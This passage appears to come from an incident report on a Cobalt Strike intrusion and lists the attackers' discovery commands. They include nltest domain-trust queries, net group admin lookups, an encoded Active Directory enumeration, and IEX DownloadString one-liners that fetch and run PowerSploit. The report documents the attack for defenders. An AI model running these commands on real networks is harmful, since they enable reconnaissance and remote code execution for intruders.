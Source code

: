 

```
cmd.exe /c nltest /domain\_trusts /all\_trusts
```

On the forth day, a Cobalt Strike Beacon was executed and then the following discovery commands were executed.



```
C:\Windows\system32\cmd.exe /C net group "enterprise admins" /domain  
C:\Windows\system32\cmd.exe /C net group "domain admins" /domain
```

On the initial beachhead host, we also saw the Cobalt Strike Beacon initiate the following PowerShell discovery using Powersploit:



```
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:35806/'); Find-LocalAdminAccess  
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:35585/'); Get-NetComputer -ping -operatingsystem *server*  
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:23163/'); Get-NetSubnet
```

After beginning lateral movement, the threat actors used the following Window’s utilities for system profiling:



```
C:\Windows\system32\cmd.exe /C systeminfo  
C:\Windows\system32\cmd.exe /C ping HOST
```

Once the threat actors had access to a domain controller, they ran the following PowerShell discovery:



```
Raw:  
SQBtAHAAbwByAHQALQBNAG8AZAB1AGwAZQAgAEEAYwB0AGkAdgBlAEQAaQByAGUAYwB0AG8AcgB5ADsAIABHAGUAdAAtAEEARABDAG8AbQBwAHUAdABlAHIAIAAtAEYAaQBsAHQAZQByACAAewBlAG4AYQBiAGwAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAfQAgAC0AcAByAG8AcABlAHIAdABpAGUAcwAgACoAfABzAGUAbABlAGMAdAAgAEQATgBTAEgAbwBzAHQATgBhAG0AZQAsACAASQBQAHYANABBAGQAZAByAGUAcwBzACwAIABPAHAAZQByAGEAdABpAG4AZwBTAHkAcwB0AGUAbQAsACAATABhAHMAdABMAG8AZwBvAG4ARABhAHQAZQA=  
Decoded:  
Import-Module ActiveDirectory; Get-ADComputer -Filter {enabled -eq $true} -properties *|select DNSHostName, IPv4Address, OperatingSystem, LastLogonDate
```

After running that, the threat actors used nltest again to confirm domain trusts:



```
C:\Windows\system32\cmd.exe /C nltest /domain\_trusts /all\_trusts
```

The local time was also queried on the domain controller:
